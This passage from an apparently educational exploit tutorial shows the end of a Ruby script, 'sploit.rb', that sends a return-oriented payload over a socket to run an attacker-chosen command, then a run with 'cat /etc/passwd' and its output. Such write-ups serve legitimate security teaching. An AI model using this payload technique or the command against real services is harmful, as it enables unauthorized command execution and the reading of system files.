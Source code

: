 ```
<span class="lnr">33 </span>    <span class="Constant">0</span>,           <span class="Comment"># stdin</span>
<span class="lnr">34 </span>    pppr_addr,   <span class="Comment"># read()'s return address</span>
<span class="lnr">35 </span>
<span class="lnr">36 </span>    read_addr <span class="Comment"># Overwrite the original return</span>
<span class="lnr">37 </span>  ].reverse.pack(<span class="Special">"</span><span class="Constant">I*</span><span class="Special">"</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">38 </span>
<span class="lnr">39 </span><span class="Comment"># Write the 'exploit' payload</span>
<span class="lnr">40 </span>s.write(payload)
<span class="lnr">41 </span>
<span class="lnr">42 </span><span class="Comment"># When our payload calls read() the first time, this is read</span>
<span class="lnr">43 </span>s.write(cmd)
<span class="lnr">44 </span>
<span class="lnr">45 </span><span class="Comment"># Read the response from the command and print it to the screen</span>
<span class="lnr">46 </span>puts(s.read)
<span class="lnr">47 </span>
<span class="lnr">48 </span><span class="Comment"># Clean up</span>
<span class="lnr">49 </span>s.close()
```

And when we run it, we get the expected result:

```

<span class="lnr">1 </span><span class="Identifier">$ ruby sploit.rb "cat /etc/passwd"</span>
<span class="lnr">2 </span><span class="Identifier">root</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Comment">root</span><span class="Normal">:</span><span class="Type">/root</span><span class="Normal">:</span><span class="Statement">/bin/bash</span>
<span class="lnr">3 </span><span class="Identifier">daemon</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Comment">daemon</span><span class="Normal">:</span><span class="Type">/usr/sbin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">4 </span><span class="Identifier">bin</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Comment">bin</span><span class="Normal">:</span><span class="Type">/bin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">5 </span><span class="Identifier">...</span>
```

And if you look at the [core dump](https://en.wikipedia.org/wiki/Core_dump), you'll see it's crashing at <tt>0x44444444</tt> as expected.

Done, right?
